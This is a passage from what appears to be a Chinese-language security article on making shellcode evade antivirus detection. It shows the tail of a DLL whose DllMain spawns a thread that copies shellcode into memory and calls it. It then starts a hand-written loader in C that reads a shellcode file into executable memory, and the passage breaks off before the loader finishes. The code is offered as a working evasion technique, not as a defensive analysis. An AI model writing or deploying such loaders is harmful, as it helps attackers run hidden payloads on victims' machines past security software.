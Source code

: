         {
        }
            if (!(memcpy(p, shellcode, sizeof(shellcode))))
            {
            }
        CODE code = (CODE)p;
        code();
        return 0;
    }
    BOOL APIENTRY DllMain( HMODULE hModule,
                           DWORD  ul_reason_for_call,
                           LPVOID lpReserved
                         )
    {
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
            My_hThread = ::CreateThread(NULL, 0, &ceshi;, 0, 0, 0);//新建线程
        case DLL_THREAD_ATTACH:
    
        case DLL_THREAD_DETACH:
    
        case DLL_PROCESS_DETACH:
    
            break;
        }
        return TRUE;
    }
    

#####
具体操作可以参考我发的上篇文章[]()[《shellcode免杀实战里面的步骤》](https://www.freebuf.com/articles/system/228233.html)。

### 3、自己写加载器

我们如果不想复制出来shellcode运行我们也可以直接运行我们生成的sc.bin，不过得需要自己写一个加载器。

代码如下

    
    
    #include<stdio.h>
    #include<stdlib.h>
    #include<windows.h>
    int main(int argc, char* argv[])
    {
        HANDLE hFile = CreateFileA(argv[1], GENERIC_READ, 0, NULL, OPEN_ALWAYS, 0, NULL);
        if (hFile == INVALID_HANDLE_VALUE)
        {
            printf("Open  File Error!%d\n", GetLastError());
            return -1;
        }
        DWORD dwSize;
        dwSize = GetFileSize(hFile, NULL);
    
        LPVOID lpAddress = VirtualAlloc(NULL, dwSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        if (lpAddress == NULL)
        {
            printf("VirtualAlloc error:%d\n", GetLastError());
            CloseHandle(hFile);
            return -1;
    